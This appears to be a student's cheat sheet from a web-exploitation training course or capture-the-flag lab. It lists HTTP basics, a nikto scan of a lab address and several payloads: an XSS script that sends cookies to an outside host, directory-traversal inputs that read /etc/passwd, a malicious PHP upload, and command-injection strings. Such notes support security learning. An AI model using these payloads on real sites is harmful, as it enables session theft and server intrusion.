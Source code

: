 https://crontab.guru/                                      -- CRONTAB GURU

https://gtfobins.github.io/#                               -- GTFOBINS

https://sec.cybbh.io/public/security/latest/index.html     -- FACILITAION GUIDE

10.50.20.250:8000                                          -- CTFD

===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
# WEB EXPLOITATION(XSS)
# Web Expliotation (XSS)
**Requests**
GET
POST
HEAD
PUT

**HTTP Response Codes**
10X == Informational
2XX == Success
30X == Redirection
4XX == Client Error
5XX == Server Error

https://user-agents.net/lookup

Check for Robots.txt

sudo apt install nikto -y

nikto -h 10.100.28.40

**Attack Methods**
//Cookie script  ------did not do -- cookie found in back end

 <script>document.location="http://10.100.28.55/Cookie.php?username=" + document.cookie;</script>


//Directory Traversal(GET) -- myfile=../../../../etc/passwd
//Directory Traversal(POST) -- File to read [../../../../etc/passwd]

//Malicious File Upload
Bad.php -- on lin-ops
goes to /uploads

//Command Injection
;whoami
;cat /etc/passwd
;ls -latr & netstat -rn
|| ifconfig
